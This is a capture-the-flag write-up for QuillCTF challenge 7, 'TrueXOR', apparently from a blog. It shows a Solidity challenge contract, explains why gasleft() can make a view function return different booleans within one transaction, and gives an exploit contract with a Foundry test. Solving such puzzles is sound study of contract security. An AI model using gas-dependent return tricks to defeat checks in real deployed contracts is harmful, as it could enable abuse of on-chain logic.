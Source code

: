 ```yaml
---
title: QuillCTF-7.TrueXOR
date: 2024-01-22 17:01:15
tags:
categories: 
    - QuillCTF
---
```


```
“This challenge is all about eXclusive OR, and you know what that means, right?”
```

## Objective

- Make a successful call to the `callMe` function. 
- The given `target` parameter should belong to a contract deployed by you and should use `IBoolGiver` interface.

## Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBoolGiver {
  function giveBool() external view returns (bool);
}

contract TrueXOR {
  function callMe(address target) external view returns (bool) {
    bool p = IBoolGiver(target).giveBool();
    bool q = IBoolGiver(target).giveBool();
    require((p && q) != (p || q), "bad bools");
    require(msg.sender == tx.origin, "bad sender");
    return true;
  }
}
```

## Observation

To solve this question we somehow have to return different booleans in the same transaction on the view function. So it is not possible to change any state variable to control it and return something else using that state variable.

If we check solidity official document for [Block And Transaction Properties](https://docs.soliditylang.org/en/v0.8.11/units-and-global-variables.html#block-and-transaction-properties) we can see there are 15 different transaction properties exist.

```
blockhash(uint blockNumber) returns (bytes32): hash of the given block when blocknumber is one of the 256 most recent blocks; otherwise returns zero
block.basefee (uint): current block’s base fee (EIP-3198 and EIP-1559)
block.chainid (uint): current chain id
block.coinbase (address payable): current block miner’s address
block.difficulty (uint): current block difficulty
block.gaslimit (uint): current block gaslimit
block.number (uint): current block number
block.timestamp (uint): current block timestamp as seconds since unix epoch
gasleft() returns (uint256): remaining gas
msg.data (bytes calldata): complete calldata
msg.sender (address): sender of the message (current call)
msg.sig (bytes4): first four bytes of the calldata (i.e. function identifier)
msg.value (uint): number of wei sent with the message
tx.gasprice (uint): gas price of the transaction
tx.origin (address): sender of the transaction (full call chain)
```

and all of them except one will be the same in the same transaction.that is `gasleft()`.

However, the `gasleft` function will be different for each call. `gasleft()` returns the amount of gas remaining in the current transaction. So we can use `gasleft` function to return a boolean.

## Attack
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/7-TrueXor/TrueXOR.sol";
import "../src/7-TrueXor/TrueXORExploit.sol";

contract TrueXORExploit is IBoolGiver {
    function giveBool() external view returns (bool) {
        return gasleft() >= 6500;
    }
}

contract TrueXORTest is Test {
    TrueXOR trueXor;
    TrueXORExploit exploit;

    function setUp() external {
        trueXor = new TrueXOR();
        exploit = new TrueXORExploit();
    }

    function testExploit() external {
        vm.prank(msg.sender);
        bool success = trueXor.callMe{gas: 10000}(address(exploit));
        assertTrue(success);
    }
}

```
